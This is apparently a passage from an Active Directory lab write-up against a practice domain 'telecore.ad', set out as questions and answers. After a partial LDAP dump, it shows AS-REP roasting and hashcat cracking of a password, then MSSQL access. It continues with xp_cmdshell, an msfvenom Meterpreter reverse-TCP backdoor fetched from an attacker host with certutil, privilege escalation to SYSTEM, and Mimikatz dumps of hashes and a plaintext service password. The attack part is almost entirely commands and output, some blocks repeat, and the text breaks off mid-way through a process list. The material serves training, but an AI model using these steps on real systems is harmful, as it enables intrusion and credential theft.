primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaiQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: HealthMailboxb35a921
sAMAccountType: 805306368
showInAddressBook: CN=All Recipients(VLV),CN=All System Address Lists,CN=Addre
 ss Lists Container,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Confi
 guration,DC=telecore,DC=ad
legacyExchangeDN: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBOHF23
 SPDLT)/cn=Recipients/cn=0a3da59c96b443e18d091eda24f6f436-HealthMailb
userPrincipalName: HealthMailboxb35a921b75dd4231bdc55df36fd84e92@telecore.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 16010101000000.0Z
mail: HealthMailboxb35a921b75dd4231bdc55df36fd84e92@telecore.ad
homeMDB: CN=Mailbox Database 1371764866,CN=Databases,CN=Exchange Administrativ
 e Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telecore Org,CN=Microso
 ft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchAddressBookFlags: 1
msExchCalendarLoggingQuota: 6291456
msExchVersion: 88218628259840
msExchPoliciesExcluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
internetEncoding: 0
msExchHideFromAddressLists: TRUE
msExchUserAccountControl: 0
msExchDumpsterQuota: 31457280
protocolSettings:: UmVtb3RlUG93ZXJTaGVsbMKnMQ==
msExchArchiveName: In-Place Archive -HealthMailbox-Ex-Srv-009
msExchProvisioningFlags: 0
msExchArchiveDatabaseLink: CN=Mailbox Database 1371764866,CN=Databases,CN=Exch
 ange Administrative Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telec
 ore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchWhenMailboxCreated: 20250912111338.0Z
msExchModerationFlags: 0
msExchHomeServerName: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBO
 HF23SPDLT)/cn=Configuration/cn=Servers/cn=EX-SRV
msExchTextMessagingState: 302120705
msExchTextMessagingState: 16842751
msExchELCMailboxFlags: 2
msExchArchiveQuota: 104857600
msExchUMDtmfMap: emailAddress:432584624526923529212753342312325533363384392
msExchUMDtmfMap: lastNameFirstName:432584624526939778009
msExchUMDtmfMap: firstNameLastName:432584624526939778009
msExchDumpsterWarningQuota: 20971520
msExchRBACPolicyLink: CN=Default Role Assignment Policy,CN=Policies,CN=RBAC,CN
 =Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,
 DC=ad
mailNickname: HealthMailboxb35a921b75dd4231bdc55df36fd84e92
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchArchiveGUID:: ef2XNS93eE+dfarNJrWhpw==
msExchMDBRulesQuota: 256
msExchMailboxSecurityDescriptor:: AQAEgBQAAAAgAAAAAAAAACwAAAABAQAAAAAABQoAAAAB
 AQAAAAAABQoAAAAEABwAAQAAAAACFAABAAIAAQEAAAAAAAUKAAAA
msExchRecipientTypeDetails: 549755813888
msExchArchiveWarnQuota: 94371840
msExchUMEnabledFlags2: -1
msExchMailboxTemplateLink: CN=Default MRM Policy,CN=Retention Policies Contain
 er,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tele
 core,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchMailboxGuid:: bdlC1Ol5j0WdTurclk03xQ==
msExchGroupSecurityFlags: 0
msExchPoliciesIncluded: 19e7f5a7-855e-4ab3-a913-c1a84b318a46
msExchPoliciesIncluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
mDBUseDefaults: TRUE
msExchBypassAudit: FALSE

# HealthMailboxbe6332542fc64ff6aaff4f061f25284d, Monitoring Mailboxes, Microsof
 t Exchange System Objects, telecore.ad
dn: CN=HealthMailboxbe6332542fc64ff6aaff4f061f25284d,CN=Monitoring Mailboxes,C
 N=Microsoft Exchange System Objects,DC=telecore,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: HealthMailboxbe6332542fc64ff6aaff4f061f25284d
distinguishedName: CN=HealthMailboxbe6332542fc64ff6aaff4f061f25284d,CN=Monitor
 ing Mailboxes,CN=Microsoft Exchange System Objects,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250912111350.0Z
whenChanged: 20250912111401.0Z
displayName: HealthMailbox-Ex-Srv-010
uSNCreated: 96732
uSNChanged: 96740
proxyAddresses: SMTP:HealthMailboxbe6332542fc64ff6aaff4f061f25284d@telecore.ad
proxyAddresses: SIP:HealthMailboxbe6332542fc64ff6aaff4f061f25284d@telecore.ad
garbageCollPeriod: 1209600
name: HealthMailboxbe6332542fc64ff6aaff4f061f25284d
objectGUID:: O1sYDKgyZ0+qo+33xoarWg==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 134021492300337029
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaigQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: HealthMailboxbe63325
sAMAccountType: 805306368
showInAddressBook: CN=All Recipients(VLV),CN=All System Address Lists,CN=Addre
 ss Lists Container,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Confi
 guration,DC=telecore,DC=ad
legacyExchangeDN: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBOHF23
 SPDLT)/cn=Recipients/cn=6df9ba92bab34e3ea0d6e445faa32b03-HealthMailb
userPrincipalName: HealthMailboxbe6332542fc64ff6aaff4f061f25284d@telecore.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 16010101000000.0Z
mail: HealthMailboxbe6332542fc64ff6aaff4f061f25284d@telecore.ad
homeMDB: CN=Mailbox Database 1520821686,CN=Databases,CN=Exchange Administrativ
 e Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telecore Org,CN=Microso
 ft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchAddressBookFlags: 1
msExchCalendarLoggingQuota: 6291456
msExchVersion: 88218628259840
msExchPoliciesExcluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
internetEncoding: 0
msExchHideFromAddressLists: TRUE
msExchUserAccountControl: 0
msExchDumpsterQuota: 31457280
protocolSettings:: UmVtb3RlUG93ZXJTaGVsbMKnMQ==
msExchArchiveName: In-Place Archive -HealthMailbox-Ex-Srv-010
msExchProvisioningFlags: 0
msExchArchiveDatabaseLink: CN=Mailbox Database 1520821686,CN=Databases,CN=Exch
 ange Administrative Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telec
 ore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchWhenMailboxCreated: 20250912111349.0Z
msExchModerationFlags: 0
msExchHomeServerName: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBO
 HF23SPDLT)/cn=Configuration/cn=Servers/cn=EX-SRV
msExchTextMessagingState: 302120705
msExchTextMessagingState: 16842751
msExchELCMailboxFlags: 2
msExchArchiveQuota: 104857600
msExchUMDtmfMap: emailAddress:432584624526923633254232643362233430613252843
msExchUMDtmfMap: lastNameFirstName:432584624526939778010
msExchUMDtmfMap: firstNameLastName:432584624526939778010
msExchDumpsterWarningQuota: 20971520
msExchRBACPolicyLink: CN=Default Role Assignment Policy,CN=Policies,CN=RBAC,CN
 =Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,
 DC=ad
mailNickname: HealthMailboxbe6332542fc64ff6aaff4f061f25284d
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchArchiveGUID:: RLl+06nOqEOA3j486NR4Ng==
msExchMDBRulesQuota: 256
msExchMailboxSecurityDescriptor:: AQAEgBQAAAAgAAAAAAAAACwAAAABAQAAAAAABQoAAAAB
 AQAAAAAABQoAAAAEABwAAQAAAAACFAABAAIAAQEAAAAAAAUKAAAA
msExchRecipientTypeDetails: 549755813888
msExchArchiveWarnQuota: 94371840
msExchUMEnabledFlags2: -1
msExchMailboxTemplateLink: CN=Default MRM Policy,CN=Retention Policies Contain
 er,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tele
 core,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchMailboxGuid:: FlllpnWMUUyyH3zoGWKzig==
msExchGroupSecurityFlags: 0
msExchPoliciesIncluded: 19e7f5a7-855e-4ab3-a913-c1a84b318a46
msExchPoliciesIncluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
mDBUseDefaults: TRUE
msExchBypassAudit: FALSE

# search reference
ref: ldap://ForestDnsZones.telecore.ad/DC=ForestDnsZones,DC=telecore,DC=ad

# search reference
ref: ldap://DomainDnsZones.telecore.ad/DC=DomainDnsZones,DC=telecore,DC=ad

# search reference
ref: ldap://telecore.ad/CN=Configuration,DC=telecore,DC=ad

# search result
search: 2
result: 0 Success

# numResponses: 39
# numEntries: 35
# numReferences: 3
```

**Summary:**

**Human / Administrative Users:**

- Guest

- virt-admin

- tel_ops1

- tel_support01

- tel_engineer01

- tel_billing01

**Machine (Computer) Accounts:**

- DC01$

- PKI-SRV$

- SQL-SRV$

- EX-SRV$

- ESXI-VD$

---
**Question 4:** How many Domain Users are present in the environment?
**Answer:** 6

---

## Initial Foothold Access

### Keberoast Attack

First we gonna save the users into a `users.txt`:

```users.txt
Guest
virt-admin
tel_ops1
tel_support01
tel_engineer01
tel_billing01
```

```bash
GetNPUsers.py telecore.ad/ -no-pass -dc-ip 10.5.2.2 -usersfile users.txt
```

```bash
Impacket v0.13.0.dev0+20250930.122532.914efa53 - Copyright Fortra, LLC and its affiliated companies 

[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User virt-admin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User tel_ops1 doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$tel_support01@TELECORE.AD:aabeb1c612d89bd9e941f1e1bb8889f0$353d364cd5d7e680aeb3a6628a2c949b22e2bf5a7db77837005974bafdc28ad3c313af4e2187d26c0d459ab886afb33447a4517f6e460d80a8a19e8196ff109d599ebd3b013bc5930a9362f945fa553bc6c603679d5c7f3b3aa1aa8a6550a567671d3c8c4213fb35b719f4810543bc0d51f9acad62fd7bfb70013f1bc99e116928d49d9b223c8565b19e5ebaf242533465514d4c76b5f3a61805021231a4d9e40b3b88f1a4c4a3ee8704003564879380400589b6b21275637d2b9115ab32a840c7d6cc34d858f949c99c67fbcded28de0fbb2f2f0119b2319a2e7aafacb1bc6388a821d2d6d6ac41e355
[-] User tel_engineer01 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User tel_billing01 doesn't have UF_DONT_REQUIRE_PREAUTH set
```

We saved the hash into a `tel_support01.hash`
```tel_support01.hash
$krb5asrep$23$tel_support01@TELECORE.AD:aabeb1c612d89bd9e941f1e1bb8889f0$353d364cd5d7e680aeb3a6628a2c949b22e2bf5a7db77837005974bafdc28ad3c313af4e2187d26c0d459ab886afb33447a4517f6e460d80a8a19e8196ff109d599ebd3b013bc5930a9362f945fa553bc6c603679d5c7f3b3aa1aa8a6550a567671d3c8c4213fb35b719f4810543bc0d51f9acad62fd7bfb70013f1bc99e116928d49d9b223c8565b19e5ebaf242533465514d4c76b5f3a61805021231a4d9e40b3b88f1a4c4a3ee8704003564879380400589b6b21275637d2b9115ab32a840c7d6cc34d858f949c99c67fbcded28de0fbb2f2f0119b2319a2e7aafacb1bc6388a821d2d6d6ac41e355
```

```bash
└─$ hashcat --identify tel_support01.hash                                                                                                            
The following hash-mode match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
  18200 | Kerberos 5, etype 23, AS-REP                               | Network Protocol
```

```bash
hashcat -m 18200 tel_support01.hash /usr/share/wordlists/rockyou.txt --status --status-timer=10 --outfile=tel_support01.cracked --outfile-format=2 
```

```bash
─$ cat tel_support01.cracked 
#T3l3phon3!
```

---
**Question 5:** What's the cracked credentials of tel_support01?
**Answer:** #T3l3phon3!

---

### MSSQL Abuse

With valid domain credentials obtained through Kerberoasting (tel_support01:#T3l3phon3!), the next phase involves leveraging these credentials against other services in the environment. The SQL Server at 10.5.2.22 represents a high-value target for lateral movement and privilege escalation.

#### MSSQL Authentication & Access

**Objective**: Determine if the compromised user account has access to the SQL Server and what privileges are available.

**Connection Attempt:**
Using the captured credentials to authenticate against the MSSQL server with Windows authentication:

```bash
─(.venv)─(kali㉿kali)-[~/learning/AD-RTS]
└─$ mssqlclient.py telecore.ad/tel_support01:'#T3l3phon3!'@10.5.2.22 -windows-auth
Impacket v0.13.0.dev0+20250930.122532.914efa53 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL-Srv\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(SQL-Srv\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (TELECORE\tel_support01  dbo@master)> 
```

#### MSSQL Enumeration

**Success!** The tel_support01 account has access to the SQL Server. Now we need to enumerate the current privileges and determine if command execution is possible.

**Privilege Assessment:**
Checking if the current user has sysadmin privileges and can enable advanced features:

```bash
SELECT SUSER_SNAME() AS LoginName;
SELECT IS_SRVROLEMEMBER('sysadmin') AS IsSysAdmin;
```

**Enabling Command Execution:**
Since the user has sufficient privileges, we can enable xp_cmdshell for OS command execution:

```bash
EXEC ('sp_configure ''show advanced options'', 1; RECONFIGURE;');
EXEC ('sp_configure ''xp_cmdshell'', 1; RECONFIGURE;');
```

**Command Execution Test:**
Verifying that command execution is working and identifying the service account context:

**Command Execution Test:**
Verifying that command execution is working and identifying the service account context:

```bash
SQL (TELECORE\tel_support01  dbo@master)> EXEC master..xp_cmdshell 'whoami';
output                        
---------------------------   
nt service\mssql$sqlexpress   
NULL                          
```

**Critical Finding**: The SQL Server is running as `NT SERVICE\MSSQL$SQLEXPRESS`, which has significant local privileges and potential for further escalation.

#### Meterpreter Payload Deployment

**Objective**: Establish a more stable command and control channel for advanced post-exploitation activities.

**Payload Generation:**
Creating a Windows x64 Meterpreter reverse TCP payload:

```bash
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.40.85 LPORT=4444 -f exe -o backdoor.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7680 bytes
Saved as: backdoor.exe
```

**Payload Generation:**
Creating a Windows x64 Meterpreter reverse TCP payload:

```bash
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.40.85 LPORT=4444 -f exe -o backdoor.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7680 bytes
Saved as: backdoor.exe
```

**HTTP Server Setup:**
Starting a Python HTTP server to host the payload for download:

```bash
└─$ python3 -m http.server 80                                    
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

**Payload Download:**
Using certutil (a Windows built-in tool) to download the payload to the target system:

```bash
SQL (TELECORE\tel_support01  dbo@master)> EXEC master..xp_cmdshell 'certutil -f -urlcache http://10.10.40.85/backdoor.exe C:\temp\backdoor.exe';
output                                                
---------------------------------------------------   
****  Online  ****                                    
CertUtil: -URLCache command completed successfully.   
NULL                  
```

```bash
SQL (TELECORE\tel_support01  dbo@master)> EXEC master..xp_cmdshell 'dir C:\temp';
output                                                
---------------------------------------------------   
 Volume in drive C has no label.                      
 Volume Serial Number is 16CF-4943                    
NULL                                                  
 Directory of C:\temp                                 
NULL                                                  
11/26/2025  02:45 AM    <DIR>          .              
11/26/2025  02:45 AM             7,680 backdoor.exe   
               1 File(s)          7,680 bytes         
               1 Dir(s)  28,611,141,632 bytes free 
```

**Payload Execution & Session Establishment:**

**Metasploit Handler Setup:**
Configuring the multi/handler to catch the reverse connection:

```bash
msf exploit(multi/handler) > show options

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.40.85      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

View the full module info with the info, or info -d command.
```

**Payload Execution:**
Executing the downloaded payload through SQL Server:

**Payload Execution:**
Executing the downloaded payload through SQL Server:

```bash
SQL (TELECORE\tel_support01  dbo@master)> EXEC master..xp_cmdshell 'C:\temp\backdoor.exe';
```

**Meterpreter Session Established:**
The payload successfully connects back to our handler:

```bash
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.40.85:4444 
[*] Sending stage (230982 bytes) to 172.26.1.14
[*] Meterpreter session 5 opened (10.10.40.85:4444 -> 172.26.1.14:52252) at 2025-11-26 05:47:56 -0500

meterpreter > 
```

#### Post-Exploitation Activities

**Session Context Verification:**
Confirming the session context and available privileges:

```bash
meterpreter > getuid
Server username: NT Service\MSSQL$SQLEXPRESS
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege

meterpreter >
```

```bash
meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege

meterpreter > 
```

```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:192fb152a1b932819f8454fd01016fa8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:1700dfd60dc906755a20779cc25bfa62:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:1700dfd60dc906755a20779cc25bfa62:::
```

#### Credential Dumping with Mimikatz

**Objective**: Extract stored credentials and hashes from the compromised SQL Server to enable lateral movement.

**Loading Mimikatz Extension:**
Using Meterpreter's built-in Kiwi extension (Mimikatz implementation):

```bash
eterpreter > load kiwi

Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
```

**Local SAM Database Dump:**
Extracting local user account hashes from the Security Account Manager (SAM) database:

```bash
meterpreter > lsa_dump_sam
[+] Running as SYSTEM
[*] Dumping SAM
Domain : SQL-SRV
SysKey : 802518e6c42fbdd87c2c38f8cf77481c
Local SID : S-1-5-21-2383328585-537152446-1969760400

SAMKey : 3f56c737b7e46376da318f33a23a3488

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 192fb152a1b932819f8454fd01016fa8

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 62788bcd190a2c4191529e433116c3c1

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-2F26HTK0E63Administrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 418ed0a7c96305fbcafcfd7f32015f056b66370d019519ecf86df3f69ac05c6c
      aes128_hmac       (4096) : cfbe6f9499703592a5362fc9fae3db84
      des_cbc_md5       (4096) : 7f7aeacb91b6e5f2

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-2F26HTK0E63Administrator
    Credentials
      des_cbc_md5       : 7f7aeacb91b6e5f2


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: 1700dfd60dc906755a20779cc25bfa62

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : a68b0b45251c1d04603bb1979b73f3f8

* Primary:Kerberos-Newer-Keys *
    Default Salt : WDAGUtilityAccount
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 0d55dee283c454cc8f6117e6c57398516c444bda703e63df337b2910b169c1d2
      aes128_hmac       (4096) : 8f24a66c62d1d327c86cbd0fea1737f4
      des_cbc_md5       (4096) : 498af123e351929b

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WDAGUtilityAccount
    Credentials
      des_cbc_md5       : 498af123e351929b
```

```bash
meterpreter > lsa_dump_secrets
[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : SQL-SRV
SysKey : 802518e6c42fbdd87c2c38f8cf77481c

Local name : SQL-SRV ( S-1-5-21-2383328585-537152446-1969760400 )
Domain name : TELECORE ( S-1-5-21-1588247407-410625039-1511794522 )
Domain FQDN : telecore.ad

Policy subsystem is : 1.18
LSA Key(s) : 1, default {3a037378-7510-f283-478c-b18a0ada5194}
  [00] {3a037378-7510-f283-478c-b18a0ada5194} 0ff57d1e2a43fee5afe658f69781e8ce0c479a8c84c11210b9e132a970e96293

Secret  : $MACHINE.ACC
cur/hex : db 6f 26 56 0e cc d1 6e e6 16 eb 9f f1 89 54 bb 04 a2 91 c2 c6 7a f3 68 d2 eb db ee 9c 6e 2c 28 c9 53 ae 5c 1b 3f ae 68 21 9f db f3 20 d9 fc 2c 1e 10 6e 22 04 8a ac 2a 48 0f ea eb 71 c5 cb f0 be 41 c0 bf e6 20 6f 26 41 a0 f4 8a 73 5f c1 6c ae 31 a5 c4 de 5b b4 ef 6f 03 ad d5 cd 43 31 14 85 9f c5 74 7f 77 b0 4d 00 40 2a 6e ae bf 40 27 3e fe e1 8d 10 9a f8 c4 44 6a 37 1b 95 36 c5 ff af 35 27 4f 8e c2 0e ca b3 1a 1a f5 b9 59 fa 89 ff f4 43 e2 4e 9e 3f 8a 29 b1 7f 7e 7c bf b5 f3 aa da 51 f8 1e ad b1 41 d8 1e 47 99 a4 e1 04 54 72 b0 cd 37 f8 db 4f 70 64 47 f2 e3 12 37 de 5a 72 d9 c5 4e ed e5 4c f1 94 25 ad 82 d1 4c d5 40 e0 81 3c 25 1c d6 a8 62 fb 05 78 42 74 00 1c 04 6c b2 a2 a3 a1 93 6b 65 f9 00 e7 a8 04 46 d8 b4 
    NTLM:813b1002de4a86ee72e6feec4f56d15d
    SHA1:316bd0f6a40b38c34a74191d53a1c15596c0bbf3
old/hex : 06 0f 16 ef 88 fd 7f 51 df d4 3f 87 9f 59 83 23 27 1a 32 9b 9c 7e 10 22 da 4c 11 04 0c 02 47 bb 18 3c 32 3d 99 7d 15 65 8f 30 1e 97 0e 07 18 2b da a1 90 8a ad 47 3e 11 bc 49 d3 b7 04 24 93 da c6 32 5f e7 72 76 00 cb 7b ea e1 ba ff 34 67 14 b0 63 3a 1d 32 ed ac b3 a7 55 b5 32 d0 37 df 69 16 ed 39 75 61 98 77 ee 3f 12 af df 7f 8f 3c b5 26 9d 8f 6e 10 5d 8d 21 18 87 49 b6 be 47 80 49 de 6b e2 03 b4 a4 cc f4 4a c4 fe 8c a5 78 06 22 49 5a be f3 79 a5 82 df 62 c8 3d 5e 53 12 e1 7e 08 42 33 45 45 6d fc ae 0a b7 f9 70 0d ba ad 10 2f 69 4b 44 3a d9 81 92 63 b8 68 15 f9 a8 a8 56 e2 15 23 50 32 db 8a c5 e8 cd c1 be 02 f3 73 cc e9 4e 46 cd 7b 35 3b 19 40 39 63 b2 f3 0e 57 1e e7 1c 33 91 d4 45 f2 77 f8 79 cf 48 75 58 54 36 
    NTLM:538579cf644ca762ecdb70f12272fae2
    SHA1:c3d0ae73896f0d1802ab23f25204c4a68d2e33a5

Secret  : DefaultPassword

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 8a 3c 2e 44 37 81 88 44 90 91 6d 50 f1 a4 fc 24 00 17 5a 10 c3 ab c3 81 51 75 ca 8f ca 20 24 3f de cd dd d2 02 6b d2 3a 
    full: 8a3c2e443781884490916d50f1a4fc2400175a10c3abc3815175ca8fca20243fdecdddd2026bd23a
    m/u : 8a3c2e443781884490916d50f1a4fc2400175a10 / c3abc3815175ca8fca20243fdecdddd2026bd23a
old/hex : 01 00 00 00 9d 10 8e 5b e3 41 19 39 78 99 f6 36 0e 59 5e 95 21 fe 45 a5 a1 33 ba 43 ea 04 56 e2 29 aa 9e 78 96 28 b5 70 fe b3 4b f6 
    full: 9d108e5be34119397899f6360e595e9521fe45a5a133ba43ea0456e229aa9e789628b570feb34bf6
    m/u : 9d108e5be34119397899f6360e595e9521fe45a5 / a133ba43ea0456e229aa9e789628b570feb34bf6

Secret  : NL$KM
cur/hex : 46 86 a4 26 e4 3a 12 63 e3 8a 65 ce e0 d0 1b 29 da 06 e3 2c e7 ff 38 6e 15 e9 5a ff 7d 59 d4 20 95 9d f5 19 75 76 4a 1d a3 12 5a a6 36 4f 5b 23 f7 b9 9b 33 7e 73 c2 63 ae ec 54 b3 26 cd 1b 57 
old/hex : 46 86 a4 26 e4 3a 12 63 e3 8a 65 ce e0 d0 1b 29 da 06 e3 2c e7 ff 38 6e 15 e9 5a ff 7d 59 d4 20 95 9d f5 19 75 76 4a 1d a3 12 5a a6 36 4f 5b 23 f7 b9 9b 33 7e 73 c2 63 ae ec 54 b3 26 cd 1b 57 

Secret  : _SC_MSSQL$SQLEXPRESS / service 'MSSQL$SQLEXPRESS' with username : NT Service\MSSQL$SQLEXPRESS

Secret  : _SC_SNMPTRAP / service 'SNMPTRAP' with username : tel_engineer01@telecore.ad
cur/text: T3l@Ops#4

Secret  : _SC_SQLTELEMETRY$SQLEXPRESS / service 'SQLTELEMETRY$SQLEXPRESS' with username : NT Service\SQLTELEMETRY$SQLEXPRESS
```

---
**Question 8:** The telecore.ad Domain SID?
**Answer:** S-1-5-21-1588247407-410625039-1511794522

---

```bash
meterpreter > ps

Process List
============

 PID   PPID  Name                         Arch  Session  User                                Path
 ---   ----  ----                         ----  -------  ----                                ----
 0     0     [System Process]
 4     0     System                       x64   0
 124   4     Registry                     x64   0
 328   1788  taskhostw.exe                x64   1        SQL-SRV\Administrator               C:\Windows\System32\taskhostw.exe
 344   4     smss.exe                     x64   0
 396   672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 448   672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 456   448   csrss.exe                    x64   0
 532   448   wininit.exe                  x64   0
 552   524   csrss.exe                    x64   1
 632   524   winlogon.exe                 x64   1        NT AUTHORITY\SYSTEM                 C:\Windows\System32\winlogon.exe
 672   532   services.exe                 x64   0
 688   532   lsass.exe                    x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\lsass.exe
 756   4996  conhost.exe                  x64   0        NT SERVICE\MSSQL$SQLEXPRESS         C:\Windows\System32\conhost.exe
 808   672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 828   672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 856   632   fontdrvhost.exe              x64   1        Font Driver Host\UMFD-1             C:\Windows\System32\fontdrvhost.exe
 860   532   fontdrvhost.exe              x64   0        Font Driver Host\UMFD-0             C:\Windows\System32\fontdrvhost.exe
 952   672   svchost.exe                  x64   0        NT AUTHORITY\NETWORK SERVICE        C:\Windows\System32\svchost.exe
 996   672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 1028  672   svchost.exe                  x64   0        NT AUTHORITY\LOCAL SERVICE          C:\Windows\System32\svchost.exe
 1036  672   svchost.exe                  x64   0        NT AUTHORITY\LOCAL SERVICE          C:\Windows\System32\svchost.exe
 1044  672   svchost.exe                  x64   0        NT AUTHORITY\LOCAL SERVICE          C:\Windows\System32\svchost.exe
 1052  672   svchost.exe                  x64   0        NT AUTHORITY\LOCAL SERVICE          C:\Windows\System32\svchost.exe
 1064  632   dwm.exe                      x64   1        Window Manager\DWM-1                C:\Windows\System32\dwm.exe
 1156  672   svchost.exe                  x64   0        NT AUTHORITY\LOCAL SERVICE          C:\Windows\System32\svchost.exe
 1172  672   svchost.exe                  x64   0        NT AUTHORITY\LOCAL SERVICE          C:\Windows\System32\svchost.exe
